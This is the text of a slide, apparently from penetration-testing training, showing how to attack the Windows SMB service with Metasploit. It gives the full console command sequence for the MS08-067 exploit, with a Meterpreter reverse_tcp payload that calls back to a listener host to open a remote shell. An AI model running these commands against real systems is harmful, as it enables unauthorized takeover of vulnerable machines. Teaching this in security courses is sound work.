

# Attacking the Windows SMB Service with Metasploit
To simplify our attack we will utilize the Metasploit Framework, available for download from: http://metasploit.com/download/. The open source computer security project, Metasploit, has risen to quick popularity to become the de facto exploitation toolkit over the last eight years.
Metasploit allows penetration testers to launch thousands of different computer exploits from a standard zed and scriptable environment.
Use exploit/windows/smb/ms08_067_netapi
Set RHOST 192.168.1.37
Set PAYLOAD windows/meterpreter/reverse_tcp
Set LHost 192.168.77.77
Set LPORT 7777
Exploit –j -z